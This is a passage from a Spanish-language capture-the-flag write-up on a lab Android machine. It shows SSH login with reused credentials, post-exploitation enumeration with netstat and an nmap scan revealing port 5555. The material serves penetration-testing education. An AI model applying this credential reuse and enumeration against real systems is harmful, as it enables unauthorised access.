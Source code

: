 Hemos encontrado unas credenciales, que podemos hacer con estas siendo un dispositivo movil. Lo importante cuando se realiza una auditoria es reutilizar credenciales. Durante la fase de reconocimiento se ha detectado que el servicio de ssh esta corriendo en el puerto 2222, vamos intentar conectarnos haciendo uso de estas.

```text
┌──(kali㉿kali)-[~]
└─$ ssh kristi@10.10.10.247 -p 2222
Password authentication
Password: 
:/ $ id
uid=10076(u0_a76) gid=10076(u0_a76) groups=10076(u0_a76),3003(inet),9997(everybody),20076(u0_a76_cache),50076(all_a76) context=u:r:untrusted_app:s0:c76,c256,c512,c768
:/ $ 
```
Se ha podido realizar el inicio de sesion por medio de ssh haciendo uso de las credenciales encontradas en la imagen.

### Fase Post-explotación.

En esta etapa, se intenta llegar más lejos dentro del sistema vulnerado, es decir conseguir credenciales o permisos de super usuario del sistema comprometido o incluso vulnerar otros sistemas por medio de tecnicas de pivoting u otras.

Existen diferentes herramientas que nos ayudan a buscar informacion del sistema para poder encontrar un vector de ataque para poder realizar la escalacion de privelegios, en este caso por un sistema operativo android se ha realizados de manera manual, se han verificado servicios corriendo, archivos con permisos de los cuales nos podriamos aprovechar asi como ver que puertos estan en escucha.

```text
┌──(kali㉿kali)-[~]
└─$ ssh kristi@10.10.10.247 -p 2222
Password authentication
Password: 
:/ $ netstat -ntpl
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program Name
tcp6       0      0 :::2222                 :::*                    LISTEN      3427/net.xnano.android.sshserver
tcp6       0      0 ::ffff:127.0.0.1:45231  :::*                    LISTEN      -
tcp6       0      0 :::5555                 :::*                    LISTEN      -
tcp6       0      0 ::ffff:10.10.10.2:34293 :::*                    LISTEN      -
tcp6       0      0 :::59777                :::*                    LISTEN      -
```
Se ha identificado el puerto 5555 lo cual no salio en el escaneo que realizamos al principio, realizamos uno rapido.

```text
┌──(kali㉿kali)-[~]
└─$ nmap -p5555 10.10.10.247                                                                                                                                                                                                           127 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-05 20:14 EDT
Nmap scan report for 10.10.10.247
Host is up (0.32s latency).

PORT     STATE    SERVICE
5555/tcp filtered freeciv

Nmap done: 1 IP address (1 host up) scanned in 3.75 seconds
```
